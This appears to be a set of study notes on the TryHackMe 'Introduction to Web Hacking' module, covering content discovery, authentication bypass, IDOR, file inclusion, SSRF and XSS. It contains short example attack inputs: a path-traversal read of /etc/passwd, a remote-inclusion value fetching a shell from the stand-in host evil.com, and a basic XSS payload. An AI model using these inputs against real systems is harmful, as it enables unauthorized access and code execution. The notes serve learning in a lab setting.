 # Introduction to Web Hacking

> 🌐 [TryHackMe: Introduction to Web Hacking](https://tryhackme.com/path)

This module introduces essential web application hacking techniques by simulating real-world vulnerabilities — all within a safe and legal lab environment. It’s focused on **manual analysis, practical exploitation**, and understanding **why** these bugs matter.

---

## 🧭 Key Learning Areas

This module covers the **top web vulnerabilities** every ethical hacker or penetration tester must know.

---

## 🕵️ Walking an Application (Manual Testing)

### 🔍 Focus:
- Learn to inspect pages using **only the browser's developer tools**
- Understand the structure and behavior of modern web apps

### ✍️ Notes:
- Developer Tools (F12) can expose hidden fields, JavaScript logic, and request/response structures.
- You can manipulate forms, cookies, headers, and more directly from the browser.

---

## 🔎 Content Discovery

### 🔍 Focus:
- Discover hidden or unlinked files/folders on a web server

### 🛠 Tools & Techniques:
- Manual guessing (`robots.txt`, `.git/`, `/admin`)
- **Directory brute-forcing** using tools like `gobuster`, `dirb`, or `ffuf`

---

## 🌐 Subdomain Enumeration

### 🔍 Focus:
- Discover subdomains that might host vulnerable services

### 🛠 Tools:
- `dnsrecon`, `sublist3r`, `Amass`, and online platforms like crt.sh
- Wordlist-based brute forcing with `wfuzz` or `ffuf`

---

## 🔓 Authentication Bypass

### 🔍 Focus:
- Exploit broken login mechanisms to gain unauthorized access

### 🧪 Techniques:
- SQL injection in login forms
- Default credentials
- Session/cookie tampering
- Logic flaws (e.g., login succeeds if password field is blank)

---

## 🆔 IDOR (Insecure Direct Object Reference)

### 🔍 Focus:
- Access data by modifying input like user IDs in URLs or form data

### 🧪 Example:
- Change `user_id=103` to `user_id=102` to view another user's data

🧠 Tip: Always inspect URLs, cookies, and request parameters for predictable patterns.

---

## 📂 File Inclusion

### 🔍 Focus:
- Exploit file inclusion flaws to read sensitive files or execute remote code

### Types:
- **LFI (Local File Inclusion)**: e.g., `page=../../etc/passwd`
- **RFI (Remote File Inclusion)**: e.g., `page=http://evil.com/shell.txt`

### 🧱 Mitigation:
- Whitelisting files, sanitizing input, disabling dangerous functions

---

## 🛰️ Intro to SSRF (Server-Side Request Forgery)

### 🔍 Focus:
- Force the server to send requests on your behalf

### 🧪 Use Cases:
- Access internal services (e.g., `http://localhost:8080`)
- Bypass firewalls
- Exfiltrate data using out-of-band techniques

---

## 🧪 Intro to Cross-site Scripting (XSS)

### 🔍 Focus:
- Inject malicious JavaScript into web pages viewed by other users

### Types:
- **Reflected XSS**: Script in the URL
- **Stored XSS**: Script saved in a database
- **DOM-based XSS**: Exploiting client-side JavaScript

🛠 Payload example:
```html
<script>alert('XSS')</script>